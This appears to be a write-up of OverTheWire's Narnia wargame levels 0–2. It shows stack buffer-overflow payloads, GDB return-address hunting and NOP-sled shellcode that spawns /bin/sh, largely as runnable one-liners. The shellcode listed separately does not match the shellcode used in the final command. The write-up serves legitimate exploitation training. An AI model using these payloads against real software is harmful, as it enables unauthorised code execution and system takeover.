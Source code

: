 # Binary Exploitation/Pwn challenges from OverTheWire

## Narnia0

We have a `char buf[20]` buffer, but the input is taken as `scanf("%24s",&buf);` and we know that the shell is only executed when the val is at **0xdeadbeef**.

We build the hex address: "\xef\xbe\xad\xde" and with `cat -` we hold the shell open:

```bash
(python -c 'print("A"*20+"\xef\xbe\xad\xde")'; cat -; ) | ./narnia0
```

## Narnia1

This time the code reads from the `env` the variable. We have to set EGG as a shellcode.
We can pick any shellcode from [here](https://www.exploit-db.com/shellcodes):  

```bash
export EGG=`python -c 'print "<shellcode>"'`

./narnia1
```

## Narnia2

The buffer is `char buf[128]` and the function we will exploit will be `strcpy(buf,argv[1]);`.
In order to see where is the range of address we can fall in using a **NOP-Sled**, first of all we have to fill the buffer with 128 "A", inside GDB.
Note the breakpoint at *strcpy*

`gdb narnia2`

```bash
b strcpy
run $(python -c 'print 128 * "A" + "BBBB"+ "CCCC"') #where B is the $ebp and C is the ret address
x/700xw $esp #analyzing the stack to detect "AAAA" B(41414141)
```

With GDB we see that in the stack we have "CCCC" in the **return address** of strcpy, then here we will put our middle-address of the  **NOP-Sled**. Again, any [shellcode](https://www.exploit-db.com/shellcodes/47513) can be used if it is small enough to fit into the NOPs.

`shellcode="\x50\x48\x31\xd2\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"`

`return address="\x4c\xd8\xff\xff"`

Number of NOPs = **128**(buff) - **25**(shellcode) + **4**($ebp) = 107

Let's run the program with:

```bash
./narnia2 $(python -c 'print 107 * "\x90" + "\x99\xf7\xe2\x8d\x08\xbe\x2f\x2f\x73\x68\xbf\x2f\x62\x69\x6e\x51\x56\x57\x8d\x1c\x24\xb0\x0b\xcd\x80"+"\x4c\xd8\xff\xff"')
```



